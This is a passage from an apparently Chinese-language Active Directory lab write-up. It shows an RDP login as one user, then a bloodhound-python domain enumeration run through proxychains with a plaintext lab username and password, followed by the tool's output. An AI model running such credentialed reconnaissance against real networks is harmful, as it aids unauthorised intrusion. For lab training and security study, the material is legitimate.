 使用 `huachunmei` 的凭据登录 `XIAORANG\XR-0687 - 172.22.15.35`

![img](img/image_20240731-163157.png)

直接通过 RDP 看不出有用的信息，启动 `Bloodhound`

首先先收集信息

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
INFO: Found AD domain: xiaorang.lab
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (xr-dc01.xiaorang.lab:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 37 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: XR-CA.xiaorang.lab
INFO: Querying computer: XR-0687.xiaorang.lab
INFO: Querying computer: XR-DC01.xiaorang.lab
INFO: Done in 00M 22S
INFO: Compressing output into 20240726164051_bloodhound.zip
```
